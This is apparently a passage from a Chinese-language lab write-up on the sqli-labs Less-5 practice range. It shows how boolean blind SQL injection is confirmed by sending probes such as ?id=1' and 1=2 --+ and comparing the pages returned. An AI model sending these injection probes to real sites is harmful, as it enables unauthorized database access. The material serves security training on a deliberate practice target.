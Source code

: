 ------





# 实际靶场 以case5为例

# less-5 布尔盲注

# 🔎 第一步：确认注入点

```
?id=1-14  一直显示的都是you are in .....
?id=15           当id等于15的时候，页面显示为空
大概可以猜测出如果为真就显示，为否就不显示，是标准的盲注
也能知道此表有14个记录

?id=1'             加上' 后报错，证明存在注入点
尝试是否为数字型
?id=1 and 1=1
?id=1 and 1=2      页面没有区别出真假注入点
尝试字符型
?id=1’ and 1=1 --+
```

#### ?id=1' and 1=2 --+  有区别出假注入点，没有了回显，less5是**布尔型盲注**。

#### 并且可以利用 真or否 来盲注

![image-20250903161305249](images/image-20250903161305249.png)



------

## 🔎 第二步：确认当前数据库名
